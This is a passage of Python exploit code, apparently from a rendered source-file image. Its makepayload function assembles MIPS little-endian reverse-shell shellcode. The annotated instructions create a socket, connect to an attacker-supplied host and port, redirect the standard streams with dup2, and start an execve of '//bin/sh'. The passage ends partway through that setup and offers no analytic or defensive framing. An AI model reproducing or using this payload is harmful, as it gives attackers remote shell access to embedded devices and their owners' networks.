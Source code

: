 ```python
        return html
 
def makepayload(host,port):
    print '[*] prepare shellcode',
    hosts = struct.unpack('<cccc',struct.pack('<L',host))
    ports = struct.unpack('<cccc',struct.pack('<L',port))
 
    #print hosts,ports
 
    # sys_socket
    # a0: domain
    # a1: type
    # a2: protocol
    mipselshell ="\xfa\xff\x0f\x24"   # li t7,-6
    mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
    mipselshell+="\xfd\xff\xe4\x21"   # addi a0,t7,-3
    mipselshell+="\xfd\xff\xe5\x21"   # addi a1,t7,-3
    mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
    mipselshell+="\x57\x10\x02\x24"   # li v0,4183 # sys_socket
    mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
 
    # sys_connect
    # a0: sockfd (stored on the stack)
    # a1: addr (data stored on the stack)
    # a2: addrlen
    mipselshell+="\xff\xff\xa2\xaf"   # sw v0,-1(sp)
    mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
    mipselshell+="\xfd\xff\x0f\x34"   # li t7,0xfffd
    mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
    mipselshell+="\xe2\xff\xaf\xaf"   # sw t7,-30(sp)
    mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\x0e\x3c"   # lui t6,0x1f90
    mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\xce\x35"   # ori t6,t6,0x1f90
    mipselshell+="\xe4\xff\xae\xaf"   # sw t6,-28(sp)
    mipselshell+=struct.pack('<2c',hosts[1],hosts[0]) + "\x0e\x3c"   # lui t6,0x7f01
    mipselshell+=struct.pack('<2c',hosts[3],hosts[2]) + "\xce\x35"   # ori t6,t6,0x101
    mipselshell+="\xe6\xff\xae\xaf"   # sw t6,-26(sp)
    mipselshell+="\xe2\xff\xa5\x27"   # addiu a1,sp,-30
    mipselshell+="\xef\xff\x0c\x24"   # li t4,-17
    mipselshell+="\x27\x30\x80\x01"   # nor a2,t4,zero
    mipselshell+="\x4a\x10\x02\x24"   # li v0,4170  # sys_connect
    mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
 
    # sys_dup2
    # a0: oldfd (socket)
    # a1: newfd (0, 1, 2)
    mipselshell+="\xfd\xff\x11\x24"   # li s1,-3
    mipselshell+="\x27\x88\x20\x02"   # nor s1,s1,zero
    mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
    mipselshell+="\x21\x28\x20\x02"   # move a1,s1 # dup2_loop
    mipselshell+="\xdf\x0f\x02\x24"   # li v0,4063 # sys_dup2
    mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
    mipselshell+="\xff\xff\x10\x24"   # li s0,-1
    mipselshell+="\xff\xff\x31\x22"   # addi s1,s1,-1
    mipselshell+="\xfa\xff\x30\x16"   # bne s1,s0,68 <dup2_loop>
 
    # sys_execve
    # a0: filename (stored on the stack) "//bin/sh"
    # a1: argv "//bin/sh"
    # a2: envp (null)
    mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
    mipselshell+="\x62\x69\x0f\x3c"   # lui t7,0x2f2f "bi"
    mipselshell+="\x2f\x2f\xef\x35"   # ori t7,t7,0x6269 "//"
    mipselshell+="\xec\xff\xaf\xaf"   # sw t7,-20(sp)
```